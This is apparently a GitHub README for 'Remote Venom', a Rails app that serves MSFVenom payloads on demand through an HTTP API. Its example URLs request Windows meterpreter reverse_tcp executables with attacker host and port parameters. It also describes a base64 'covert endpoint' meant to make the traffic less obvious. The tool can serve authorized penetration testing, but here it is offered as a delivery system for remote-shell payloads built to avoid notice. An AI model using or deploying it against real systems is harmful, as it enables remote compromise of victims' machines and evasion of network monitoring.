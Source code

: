 # Remote Venom
---
This is a simple Rails app acting as a remote delivery system for MSFVenom payloads. 

To install:
```
bundle install
rake db:create
rake db:schema:load
```

To run:
```
rails s -b 0.0.0.0
```

Every MSFVenom option has been parameterized, so calls to the API look like this:
```
http://192.168.1.100:3000/api/payloads?payload=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&format=exe
```
You can also use the shorthand syntax:
```
http://192.168.1.100:3000/api/payloads?p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe
```
For less obvious traffic, you can send the parameters as base64 (using the covert endpoint):
```
http://192.168.1.100:3000/a?b=cD13aW5kb3dzL21ldGVycHJldGVyL3JldmVyc2VfdGNwJmxob3N0PUhPU1QmbHBvcnQ9UE9SVCZmPWV4ZQo=
# example encoded payload is 'p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe'
```
To list all payloads:
```
http://192.168.1.100:3000/api/payloads/list
or 
http://192.168.1.100:3000/a/p/l
```

Feel free to use and modify, or contribute directly to the project. Merge requests welcome!
